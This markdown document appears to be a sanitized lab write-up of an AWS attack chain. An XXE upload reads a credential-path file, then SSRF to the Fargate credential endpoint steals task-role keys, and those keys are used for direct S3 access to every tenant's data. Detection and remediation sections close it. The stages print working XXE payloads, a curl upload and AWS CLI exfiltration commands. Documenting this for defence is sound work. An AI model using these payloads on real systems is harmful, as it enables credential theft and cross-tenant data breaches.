



# Attack Path 1 — XXE to SSRF to Cross-Tenant Data Breach

**Layer:** Application → IAM → Storage
**Objective:** steal the ECS container's AWS credentials via a malicious upload, then use them to read every tenant's data directly from S3, bypassing the application's tenant isolation.

> Sanitized walk-through. Real account IDs, keys, ARNs, endpoints, and credential UUIDs are replaced with placeholders.

## Why it works

The upload endpoint parses XML/SVG with an `lxml` parser configured to resolve external entities (`resolve_entities=True`, `load_dtd=True`, `no_network=False`). That allows a crafted document to (a) read local files and (b) make network requests from inside the container. Combined with:

- a debug file at `/tmp/cred_uri` containing the task credential path,
- an API task role holding `s3:*` on the whole bucket with no tenant conditions,
- no S3 bucket policy enforcing tenant isolation, and
- an ECS security group with unrestricted egress,

a single authenticated tenant can escalate to a full cross-tenant breach.

## Stages

### Stage 1 — Read the credential URI (XXE file read)

The container stores its credential path (`AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`) in `/tmp/cred_uri` at startup. A malicious XML uses an external entity to read that file; the app echoes the parsed value back in its `preview` response field.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///tmp/cred_uri">
]>
<data><record>&xxe;</record></data>
```

Uploaded as an authenticated tenant:

```bash
curl -X POST "http://sec-lab-alb-prod-XXXXXXXX.eu-west-3.elb.amazonaws.com/upload" \
  -H "X-API-Key: <tenant-a-key>" \
  -F "file=@evil.xml"
```

Response reveals the internal credential path:

```json
"preview": "/v2/credentials/xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx"
```



### Stage 2 — Fetch the credentials (SSRF)

A second document points an external entity at the Fargate task-credential endpoint (`169.254.170.2`) using the path from Stage 1. The parser makes the request **from inside the container** (SSRF); the credential JSON comes back in the response.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.170.2/v2/credentials/xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx">
]>
<data><record>&xxe;</record></data>
```

Response contains temporary credentials for the API task role:

```json
"preview": "{\"RoleArn\":\"arn:aws:iam::111111111111:role/sec-lab-task-role-prod\",\"AccessKeyId\":\"ASIA...REDACTED\",\"SecretAccessKey\":\"...REDACTED\",\"Token\":\"...REDACTED\"}"
```

These are valid temporary AWS credentials — AWS cannot tell they were stolen.



### Stage 3 — Direct S3 access across all tenants

Configure the AWS CLI with the stolen credentials and call S3 directly, bypassing the Flask app entirely:

```bash
export AWS_ACCESS_KEY_ID="ASIA...REDACTED"
export AWS_SECRET_ACCESS_KEY="...REDACTED"
export AWS_SESSION_TOKEN="...REDACTED"
export AWS_DEFAULT_REGION="eu-west-3"

# List every object across all tenant prefixes
aws s3 ls s3://sec-lab-data-prod-xxxxxxxx/ --recursive

# Download another tenant's file
aws s3 cp s3://sec-lab-data-prod-xxxxxxxx/tenant-b/<filename> ./stolen_file.xml
```

Files from `tenant-a/`, `tenant-b/`, and `tenant-c/` are all listable and downloadable, even though the attacker authenticated only as tenant A. The task role has `s3:*` on the whole bucket, and application-layer isolation does not apply to direct API calls.



## Attack chain

```
Upload malicious XML
      ↓  (XXE file read)
App returns /tmp/cred_uri path
      ↓  (SSRF to 169.254.170.2)
Task role credentials returned in response
      ↓  (AWS CLI with stolen creds)
Direct S3 access — all tenant data exposed
```

## Detection

Stage 3 generates direct S3 API calls by the API task role, captured by CloudTrail S3 data events on the tenant bucket and matched by the security-account metric filter `sec-lab-alarm-task-role-direct-s3`.


## Remediation

Fixed across application, IAM, storage, and network layers — see **[remediation.md](remediation.md)** (VULN-1, VULN-2, VULN-5, VULN-6, and the ECS egress lockdown). After remediation, Stage 1 fails (the file no longer exists and the parser refuses external entities), so the chain never begins.
